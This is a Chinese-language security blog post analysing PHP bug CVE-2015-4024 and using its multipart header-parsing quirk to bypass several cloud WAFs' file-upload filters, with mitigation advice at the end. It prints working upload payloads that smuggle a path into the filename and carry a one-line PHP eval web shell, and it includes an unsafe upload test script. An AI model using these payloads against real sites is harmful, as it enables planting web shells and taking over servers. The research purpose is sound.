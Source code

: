 title: PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed
date: 2016-09-24 13:20:39
update: ""
author: me
tags:
- Hacker
categories:
- Hacker
topic: ""
cover: ""
draft: false
preview: ""
top: false
type: ""
hide: false
config: null


---


# 1.     背景介绍
今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

# 2.     绕过WAF的原理

根据PHP DOS漏洞原理，在multipart_buffer_headers函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

<!--more-->

```php
prev_len= strlen(prev_entry.value);

cur_len= strlen(line);

entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存

memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝

memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝

entry.value[cur_len+ prev_len] = '\0';

entry.key= estrdup(prev_entry.key);

zend_llist_remove_tail(header);//1次内存释放
```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP multipart_buffer_headers函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是”test3.jpg\nf/shell.php”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

## WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y

```

## 文件上传功能测试脚本: 

```php
<?php

         $name = $_FILES['file']['name'];

        echo $name;

        echo "\n";

        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);

        echo "upload success! ".$_FILES['file']['name'];

        echo "\n";

        echo strlen($_FILES['file']['name']);

?>

```

Payload能够正常上传

![1](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6apwul8mrj30r50fptbm.jpg)

# 3.     绕过WAF实战

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

## 3.1 绕过360网站卫士

### 步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

![2](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6apy2esg5j311v0ifdjx.jpg)

### 步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

![3](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6apztziwvj30vm0g9af6.jpg)

## 3.2 绕过知道创宇加速乐

### 步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

![4](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6aq0sw1luj30wb0f9wjf.jpg)

### 步骤二：成功绕过加速乐，上传shell，文件是syt.php。

![5](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6aq1mvbrqj30vr0elwh2.jpg)

## 3.3. 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

### 步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

![6](http://7xusrl.com1.z0.glb.clouddn.com/005K4Knkgw1f6aq30m0wjj31050etdko.jpg)

### 步骤二：成功绕过云加速

同上

# 4.     扩展—更多的工作

## 4.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。


```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y
```

## 4.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

# 5.     修复方案

## 5.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

## 5.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号双引号闭合。

# 6.     总结

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。
